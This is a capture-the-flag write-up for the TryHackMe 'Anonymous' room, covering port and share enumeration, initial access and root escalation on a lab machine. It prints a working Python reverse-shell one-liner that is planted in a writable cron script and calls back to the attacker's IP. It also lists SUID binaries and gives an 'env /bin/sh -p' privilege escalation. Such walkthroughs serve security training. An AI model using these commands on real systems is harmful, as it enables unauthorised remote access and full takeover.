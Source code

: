 # 35 - Anonymous

Room Link --> [https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -T5 -p- -sS -vv 10.10.135.201

PORT    STATE SERVICE     REASON  VERSION
21/tcp  open  ftp         syn-ack vsftpd 2.0.8 or later
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-   syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```
{% endcode %}

#### FTP enum

```bash
ftp 10.10.135.201

# download all the files.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1032 Oct 23 17:09 removed_f
```

#### SMB enum

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">smbmap -H 10.10.135.201 -u 'anonymous' -p 'anonymous' 

print$          NO ACCESS	Printer Drivers
<strong>pics            READ ONLY	My SMB Share Directory for Pics
</strong>IPC$            NO ACCESS	IPC Service (anonymous server (Samba, Ubuntu))
</code></pre>

We have anonymous access only to the `pics` share.

### Initial Access

The `clean.sh` script file in ftp is running by itself every minute, any we have write access to it, meaning we can modify it and upload  a rev shell inside.

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.88.214",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'

# then upload to the ftp sserver.
# ready nc listener.
# and we got a shell.
```
{% endcode %}

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Priv Esc

The user is part of the `lxd` group. I tried that but it was not working so i searched for SUID binaries:

To get a list of all SUID binaries, execute the following command:

**#find / -user root -perm -u=s 2>/dev/null**

/usr/bin/passwd\
**/usr/bin/env ← — here**\
/usr/bin/gpasswd\
/usr/bin/newuidmap\
/usr/bin/newgrp\
/usr/bin/chsh\
/usr/bin/newgidmap\
/usr/bin/chfn\
/usr/bin/sudo\
/usr/bin/traceroute6.iputils\
/usr/bin/pkexec

The "/usr/bin/env" stood out.

`env /bin/sh -p` -- and got root.

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Done!



